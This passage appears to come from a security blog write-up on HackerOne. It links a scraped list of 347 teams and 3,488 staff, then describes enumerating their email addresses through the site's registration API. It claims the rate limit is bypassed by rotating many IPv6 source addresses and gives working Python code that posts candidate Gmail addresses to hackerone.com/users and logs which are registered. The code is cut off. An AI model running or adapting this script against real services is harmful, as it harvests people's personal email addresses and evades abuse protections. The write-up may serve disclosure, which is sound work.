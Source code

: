 ```
```

So I have a list of `347` teams corresponding to `3488` staff XD

<a href="https://github.com/Symbo1/HackerOne-Staffs" target="_blank">https://github.com/Symbo1/HackerOne-Staffs</a>

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa3.png)

## 0x02 Enumeration email addresses:

Under normal circumstances, the registered API will be frequency-limited, but can be bypassed by adding a large number of IPv6 enumerations:

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa4.png)

Here only use gmail for testing, in fact, you can also add outlook, yahoo, mail.ru ...

```
import json
import random
import string
import requests
import netifaces
from gevent import monkey
from gevent.pool import Pool
from requests_toolbelt.adapters import source

monkey.patch_all()
interfaces = 'ens3'

ips = []
for ipv6 in netifaces.ifaddresses(interfaces)[netifaces.AF_INET6]:
	if not ipv6['addr'].split(':')[0] == "fe80":
		ips.append(ipv6['addr'].split('%')[0])

def main(username):
	print username
	email = "{}@gmail.com".format(username)
	datas = {
		"user[email]": email
	}

	headers={
		"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0",
		"Accept":"application/json, text/javascript, */*; q=0.01",
		"X-CSRF-Token":"...",
		"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
		"X-Requested-With":"XMLHttpRequest",
		"Cookie": "...",
		"Connection":"keep-alive"
	}
	try:

		s = requests.Session()
		new_source = source.SourceAddressAdapter(random.choice(ips))
		s.mount('http://', new_source)
		s.mount('https://', new_source)

		r = s.post("https://hackerone.com/users",headers=headers , data=datas, timeout=5)
		ret = json.loads(r.content)["errors"]
		if ret:
			f = open("email-done.txt",'a')
```